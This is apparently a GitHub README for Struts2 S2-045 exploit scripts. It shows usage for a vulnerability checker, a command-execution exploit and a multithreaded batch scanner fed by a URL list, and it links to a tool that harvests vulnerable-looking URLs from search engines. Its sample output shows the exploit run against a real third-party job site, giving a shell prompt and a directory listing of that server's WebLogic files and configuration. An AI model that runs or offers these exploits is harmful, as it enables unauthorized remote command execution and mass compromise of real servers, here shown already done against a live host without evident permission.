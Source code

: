 ### USage

#### 检测漏洞POC
python s2_045.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
```
#### 漏洞利用POC（cmd版）
python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
[cmd]>>ls
autodeploy
bin
career2.log
career2.log.2017-02-01
career2.log.2017-02-02
career2.log.2017-02-03
career2.log.2017-02-04
career2.log.2017-02-05
career2.log.2017-02-06
career2.log.2017-02-07
career2.log.2017-02-08
career2.log.2017-02-09
career2.log.2017-02-10
career2.log.2017-02-11
career2.log.2017-02-12
career2.log.2017-02-13
career2.log.2017-02-14
career2.log.2017-02-15
career2.log.2017-02-16
career2.log.2017-02-17
career2.log.2017-02-18
career2.log.2017-02-19
career2.log.2017-02-20
career2.log.2017-02-21
career2.log.2017-02-22
career2.log.2017-02-23
career2.log.2017-02-24
career2.log.2017-02-25
career2.log.2017-02-26
career2.log.2017-02-27
career2.log.2017-02-28
career2.log.2017-03-01
career2.log.2017-03-02
career2.log.2017-03-03
career2.log.2017-03-04
career2.log.2017-03-05
career2.log.2017-03-06
config
config20150826.tar.gz
config20151204.tar.gz
console-ext
edit.lok
fileRealm.properties
init-info
lib
pending
security
servers
shutdown.py
startManagedWebLogic_readme.txt
startWebLogic.sh
tmp

```
#### 多线程批量检测脚本
python S2_045_thread.py（填写url.txt后运行）

```bash
填写url.txt文件，每行一个url地址(url中含.action/.do的地址)，运行完以后会生成一个result.txt文件存放存在漏洞的url
```

#### 利用搜索引擎批量检测脚本
想要采集网站中带.action/.do地址的，请看：[Search_S2_045](https://github.com/tengzhangchao/Struts2_045-Poc/tree/master/Search_S2_045)


更多请参考博客：[nMask](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)